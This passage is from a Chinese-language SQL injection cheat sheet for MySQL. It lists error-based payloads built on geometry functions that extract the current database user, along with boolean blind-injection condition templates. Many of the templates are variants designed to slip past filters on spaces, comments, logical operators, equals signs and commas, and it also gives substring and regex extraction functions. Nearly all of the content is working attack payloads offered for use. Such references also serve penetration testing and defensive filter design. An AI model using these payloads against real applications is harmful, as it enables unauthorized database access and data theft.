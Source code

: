 - linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));

#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  - ```sql
    //正常情况
    'or bool#
    true'and bool#
        
    //不使用空格、注释
    'or(bool)='1
    true'and(bool)='1
        
    //不使用or、and、注释
    '^!(bool)='1
    '=(bool)='
    '||(bool)='1
    true'%26%26(bool)='1
    '=if((bool),1,0)='0
        
    //不使用等号、空格、注释
    'or(bool)<>'0
    'or((bool)in(1))or'0
        
    //其他
    or (case when (bool) then 1 else 0 end)
    ```

  - 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  - ```sql
    1' or (bool) or '1'='1
    1%' and (bool) or 1=1 and '1'='1
    ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

  - ```sql
    left(user(),1)>'r'  
    right(user(),1)>'r'  
    substr(user(),1,1)='r'  
    mid(user(),1,1)='r' 
        
    //不使用逗号 
    user() regexp '^[a-z]'
    user() like 'root%'
    POSITION('root' in user())
    mid(user() from 1 for 1)='r'
    mid(user() from 1)='r'
    ```
